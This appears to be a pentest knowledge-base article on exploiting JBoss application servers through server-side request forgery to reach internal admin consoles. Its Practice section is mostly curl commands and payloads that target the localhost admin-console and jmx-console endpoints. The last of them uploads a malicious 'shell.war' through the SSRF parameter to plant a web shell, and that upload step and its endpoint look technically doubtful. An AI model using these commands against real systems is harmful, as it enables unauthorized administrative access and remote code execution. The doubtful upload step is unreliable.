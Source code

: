 ```yaml
---
title: Exploiting JBoss Management Console via SSRF
description: Learn how to exploit JBoss HTTP services using SSRF to access management
  consoles and execute admin actions.
keywords:
- JBoss
- SSRF
- management console
- exploitation
- server-side request forgery
- internal admin
- Java EE
- web-based management
- application server
- remote code execution
---
```


# JBoss

## Context

This article outlines the exploitation of JBoss HTTP-based services using Server-Side Request Forgery (SSRF) to gain unauthorized access to internal management consoles and perform administrative actions. The attacker leverages SSRF vulnerabilities to redirect HTTP requests originating from the server to internal interfaces, allowing bypass of network restrictions. This approach is premised on knowledge of HTTP protocol, server configuration, web application architecture, and SSRF techniques.

## Theory

### JBoss Management Console Exposure via SSRF

**Definition:**  
JBoss is a Java EE application server that features a web-based management console for administrative purposes. This console facilitates the deployment and management of server applications.

**Core Principle:**  
Server-Side Request Forgery (SSRF) exploits can redirect HTTP requests from server origins to internal admin endpoints of JBoss, which are typically not accessible from external networks.

**Vulnerability Model:**  
An existing SSRF vulnerability allows attackers to attempt access to JBoss management interfaces bound to localhost or internal subnets.

### Internal Admin Service Attack Surface

**Definition:**  
JBoss exposes its management endpoints such as `/admin-console` and `/jmx-console` over HTTP(S), often configured to be reachable only from localhost or specific internal IPs.

**Attack Sequence:**  
Attackers use SSRF to craft requests aimed at these JBoss admin endpoints, effectively circumventing network constraints to exploit them.

**Trust Assumption:**  
JBoss commonly assumes requests from localhost or trusted networks are legitimate. In several versions, default configurations may lack robust authentication mechanisms.

### Exploiting JBoss via SSRF

**Attack Sequence:**  
- Identify an SSRF entry point.
- Enumerate internal endpoints within JBoss.
- Initiate interactions with the management console via SSRF.
- Execute administrative tasks, such as deploying web applications or executing commands.

## Practice

### Enumerate and Access JBoss Management Console via SSRF

- **Identify SSRF Injection Point:** Locate where in the web application an attacker can control the URLs requested by the server.

- **Payload:** Access a known JBoss admin console endpoint using SSRF.

    ```http
    http://127.0.0.1:8080/admin-console/
    ```

- **Command Line:** Trigger SSRF to access the JBoss admin console.

    ```bash
    curl -X GET 'http://vulnerable-app/ssrf?url=http://127.0.0.1:8080/admin-console/'
    ```

- **Analysis:** Examine the SSRF response for elements indicative of the JBoss admin console, like specific HTML titles or login forms.

### Interact with JBoss Admin Endpoints for Exploitation

- **Payload:** Target the JMX console, another management interface of JBoss.

    ```http
    http://127.0.0.1:8080/jmx-console/
    ```

- **Command Line:** Send SSRF request to access the JBoss JMX console.

    ```bash
    curl -X GET 'http://vulnerable-app/ssrf?url=http://127.0.0.1:8080/jmx-console/'
    ```

- **Admin Actions Discovery:** Inspect the SSRF response to determine if any administrative actions, such as application deployment or execution, can be performed.

### Deploy Malicious Application via JBoss Console (if accessible)

- **Payload:** Location of the JBoss management endpoint for deploying applications.

    ```http
    http://127.0.0.1:8080/management/upload
    ```

- **Command Line:** Attempt to upload a malicious WAR file using SSRF.

    ```bash
    curl -X POST -F 'file=@shell.war' 'http://vulnerable-app/ssrf?url=http://127.0.0.1:8080/management/upload'
    ```

- **Verification:** Check if the malicious application is deployed successfully, potentially through a shell accessible via the SSRF response.

## Tools

- **curl**